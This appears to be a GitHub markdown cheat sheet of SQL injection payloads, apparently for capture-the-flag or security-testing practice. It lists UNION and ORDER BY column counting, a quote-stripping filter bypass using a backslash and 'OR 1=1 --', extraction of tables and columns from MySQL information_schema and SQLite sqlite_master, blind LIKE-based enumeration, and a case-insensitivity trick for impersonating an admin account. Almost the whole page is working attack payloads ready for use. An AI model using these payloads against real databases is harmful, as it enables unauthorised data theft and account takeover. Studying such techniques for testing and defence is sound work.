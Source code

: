 
###### In the following queries, `'` may not work sometimes, so { `\`\`,`"` } can  be tested
###### To comment out the remaining code, { `;#`,`;--`,`;//` } can be used
###### While doing sqli through urls, { `;#`,`;--`,`;//` } need to be encoded specially 

### Finding no of columns in table
* `' UNION SELECT 1,2,3.. FROM table_name`
* `' ORDER BY n`  [If we get error for n, then n-1 will be no of columns]
 
### Limiting no of rows
* `' OR 1=1 LIMIT 1 --`

### Special Bypassing
```   
<?php 
$name = preg_replace("'","",$name);
$pass = preg_replace("'","",$pass);
SELECT * FROM users WHERE username='name' and password='pass'
```
[attack] => user = `\`  & pass = `OR 1=1 --`

## For Mysql
#### Finding version and databases
  `' UNION SELECT 1,@@version,database(),4,.....`
#### Extracting Tables from databases
  `' union select 1,group_concat(table_name),3... from information_schema.tables where table_schema=database()`
#### Extracting columns from databases
  `' union select 1,group_concat(column_name),3... from information_schema.columns where table_schema=database()`
  `' UNION SELECT table_name, column_name, 1 FROM information_schema.columns`

## For sqlite
 In sqlite __sqlite_master__ replaces __information_schema__
#### Extracting table names
  `' UNION SELECT name FROM sqlite_master WHERE type='table'`
#### Extracting column names from a table
  `' UNION SELECT sql FROM sqlite_master WHERE type='table' AND tbl_name = 'table_name'`

## Blind SQLI
* `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "%a%") --`   [It will ask whether a user with letter "a" or "A" containing in his name]
* `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE "__a%") --`	 [It will ask whether the letter is at 3rd place or NOT]

  HERE `%`,`_` are WILDCARDS. `%` matches any string and `_` matches only one character

* By default, LIKE is __case-insensitive__

  `' WHERE EXISTS(SELECT * FROM table_name WHERE username LIKE BINARY "%a%") --` [To make a case sensitive search, use BINARY right after LIKE]


 
## Common-errs
* `mysql` does a case insensitive search by default and also ignores the trailing spaces

   How to exploit that?
   
   A username `Admin` can be created and it can be used to sign-in as `admin`
